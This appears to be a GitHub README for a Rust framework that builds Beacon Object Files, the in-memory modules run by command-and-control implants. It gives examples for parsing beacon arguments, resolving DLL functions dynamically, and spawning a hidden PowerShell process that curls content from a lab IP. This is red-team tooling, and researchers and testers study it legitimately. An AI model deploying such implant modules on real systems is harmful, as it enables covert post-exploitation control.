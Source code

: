 A different approach to building BOFs in rust. Similar to `bof-oxide` but uses FFI to create wrapper fns.

## Building

prerequisites `just`

```
cargo install just
```

#### default

Just include default `output`

```bash
just bof
```

#### utils

Build with all utils enabled allowing us to extract data passed to the coff along with `printf`.

```bash
just bof-utils
```

#### beacon_api

```
just bof-beacon_api
```

example feature usage with argument passing

```rust
let mut beacon = Beacon::new(args, alen);
beacon.format_alloc(256);
let ip = beacon.get_arg();
printf(b"Ip: %s \0", ip);
let port = beacon.get_int();
```

#### alloc

Build with the alloc feature enabled.

```bash
just bof-alloc
```

Allows the use of `vec![]`

#### all

All features enabled

```
just bof-all
```

---

### Parse Arguments

```rust
let mut beacon = Beacon::new(args, alen);
    beacon.format_alloc(256);

    let ip = beacon.get_arg();
    if !ip.is_null() {
        printf("Ip: %s \0", ip);
        let port = beacon.get_int();
        printf("Port: %d \0", port as *mut i8);
    } else {
        output("Usage: str:ip int:8080");
}
```

```
just bof-beacon_api
```


### Load functions from DLLs

```rust
use core::ffi::{c_char, c_int, c_void};
use utils::resolve_func;
use utils::{output, printf, GetProcAddress, LoadLibraryA};

type MessageBoxA = unsafe extern "system" fn(
    hwnd: *mut c_void,
    test: *mut u8,
    caption: *mut u8,
    style: u32,
) -> isize;

#[unsafe(no_mangle)]
pub unsafe extern "C" fn rust_bof(args: *mut c_char, alen: c_int) {
    let mut beacon = Beacon::new(args, alen);
    beacon.format_alloc(256);

    let some_func = resolve_func("user32.dll\0", "MessageBoxA\0");
    if !some_func.is_null() {
        let msgbox: MessageBoxA = unsafe { core::mem::transmute(some_func) };

        match (msgbox)(
            core::ptr::null_mut(),
            b"Hello bruh\0".as_ptr() as *mut u8,
            b"Rusty BOF\0".as_ptr() as *mut u8,
            1,
        ) as i32
        {
            1 => output("you clicked ok"),
            2 => output("You clicked cancel"),
            _ => output("exited"),
        }
    } else {
        output("[!] Could not find func");
    }
}
```

```
just bof-utils
```
![image](https://github.com/KickedDroid/loadstar/blob/master/examples/Screenshot_2025-08-20_12-37-33.png?raw=true)

### CreateProcessW

```rust
use alloc::vec;
use bindings::output;
use bindings::{to_wide, CreateProcessW, WaitForSingleObject, PROCESS_INFORMATION, STARTUPINFO};
use core::alloc::Layout;
use core::ffi::{c_char, c_int};
#[unsafe(no_mangle)]
pub unsafe extern "C" fn rust_bof(args: *mut c_char, _alen: c_int) {
    let mut si = STARTUPINFO::default();
    si.dwFlags = 0x1;
    let mut pi = PROCESS_INFORMATION::default();

    let mut dst_buffer = vec![0 as *mut u16; 100];

    let cmd = "powershell.exe -c curl -o hello.txt http://192.168.122.1:8000/wassssssup";
    if !to_wide(cmd, dst_buffer.as_ptr() as *mut u16) {
        output("Could not parse to wide str")
    };
    if (CreateProcessW)(
        core::ptr::null(),
        dst_buffer.as_ptr() as *mut u16,
        core::ptr::null_mut(),
        core::ptr::null_mut(),
        0,
        0,
        core::ptr::null_mut(),
        core::ptr::null(),
        &mut si,
        &mut pi,
    ) == 0
    {
        output("SHIT");
    };

    WaitForSingleObject(pi.hProcess, 0xFFFFFFFF);
}
```

```
just bof-alloc
```
